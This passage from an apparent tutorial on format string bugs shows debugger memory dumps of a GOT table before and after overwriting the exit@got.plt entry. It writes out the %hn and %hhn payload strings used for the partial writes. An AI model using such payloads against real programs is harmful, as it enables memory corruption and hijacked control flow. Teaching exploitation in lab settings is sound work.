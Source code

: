 Before overwrite:

```console
gef➤  x/6g 0x404038-32
0x404018 <system@got.plt>:  0x401036  0x401046
0x404028 <setvbuf@got.plt>: 0x7f9b6dfffea0  0x7f9b6dfda060
0x404038 <exit@got.plt>:  0x401076  0x0
```

After overwrite:

```console
gef➤  x/6g 0x404038-32
0x404018 <system@got.plt>:  0x401036  0x7f9b6dfda4c0
0x404028 <setvbuf@got.plt>: 0x7f9b6dfffea0  0x7f9b6dfda060
0x404038 <exit@got.plt>:  0x64  0x0
```

When using `%hn`, the payload would be `%8$100p%8$hn||||\x38\x40\x40\x00\x00\x00\x00\x00`  
Before overwrite:

```console
gef➤  x/6g 0x404038-32
0x404018 <system@got.plt>:  0x401036  0x401046
0x404028 <setvbuf@got.plt>: 0x7ff4dac12ea0  0x7ff4dabed060
0x404038 <exit@got.plt>:  0x401076  0x0
```

After overwrite:

```console
gef➤  x/6g 0x404038-32
0x404018 <system@got.plt>:  0x401036  0x7ff4dabed4c0
0x404028 <setvbuf@got.plt>: 0x7ff4dac12ea0  0x7ff4dabed060
0x404038 <exit@got.plt>:  0x400064  0x0
```

Only the lower 2 bytes were overwritten.  
When using `%hhn`, the payload becomes `%8$100p%8$hhn|||\x38\x40\x40\x00\x00\x00\x00\x00`  
Before overwrite:

```console
gef➤  x/6g 0x404038-32
0x404018 <system@got.plt>:  0x401036  0x401046
0x404028 <setvbuf@got.plt>: 0x7fb836091ea0  0x7fb83606c060
0x404038 <exit@got.plt>:  0x401076  0x0
```

After overwrite:

```console
gef➤  x/6g 0x404038-32
0x404018 <system@got.plt>:  0x401036  0x7fb83606c4c0
0x404028 <setvbuf@got.plt>: 0x7fb836091ea0  0x7fb83606c060
0x404038 <exit@got.plt>:  0x401064  0x0
```

Only the lowest byte was overwritten.  
I hope that format string bugs no longer feel alien to the reader.
